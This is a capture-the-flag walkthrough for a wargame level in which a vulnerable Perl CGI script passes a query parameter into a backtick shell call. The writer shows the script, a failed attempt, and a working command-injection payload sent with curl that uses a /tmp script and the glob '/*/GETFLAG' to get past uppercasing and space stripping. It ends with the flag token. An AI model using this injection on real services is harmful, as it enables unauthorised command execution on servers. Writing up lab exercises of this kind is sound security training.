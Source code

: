 ## LEVEL 12

---

This level is similar to the previous level, except that now the server is a `.pl` file.

```perl
#!/usr/bin/env perl
# localhost:4646
use CGI qw{param};
print "Content-type: text/html\n\n";

sub t {
  $nn = $_[1];
  $xx = $_[0];
  $xx =~ tr/a-z/A-Z/;
  $xx =~ s/\s.*//;
  @output = `egrep "^$xx" /tmp/xd 2>&1`;
  foreach $line (@output) {
      ($f, $s) = split(/:/, $line);
      if($s =~ $nn) {
          return 1;
      }
  }
  return 0;
}

sub n {
  if($_[0] == 1) {
      print("..");
  } else {
      print(".");
  }
}

n(t(param("x"), param("y")));
```

I can see a shell command executed, so I can use a command injection to run `getflag`.

The only problem with this level is these two lines:
```
$xx =~ tr/a-z/A-Z/;
$xx =~ s/\s.*//;
```

Before executing the command, the Perl program removes every space from the variable and changes every lowercase to uppercase.

So I cannot just write: ```curl 'localhost:4646?x=`getflag > > /tmp/flag`&y=empty'```. Instead, I must create a shell script and then run it inside the Perl executable.

```shell
$ vi /tmp/GETFLAG
#!/bin/bash
getflag > /tmp/flag
$ export PATH=/tmp:$PATH
$ curl 'localhost:4646?x=`GETFLAG`&y=empty'
$ cat /tmp/flag
cat: /tmp/flag: No such file or directory
```

This does not work because the environment variable has been set only for me, not for the server.

```shell
$ vi /tmp/GETFLAG
#!/bin/bash
getflag > /tmp/flag
$ curl 'localhost:4646?x=`/*/GETFLAG`&y=empty'
$ cat /tmp/flag
Check flag. Here is your token: g1qKMiRpXf53AWhDaU7FEkczr
```
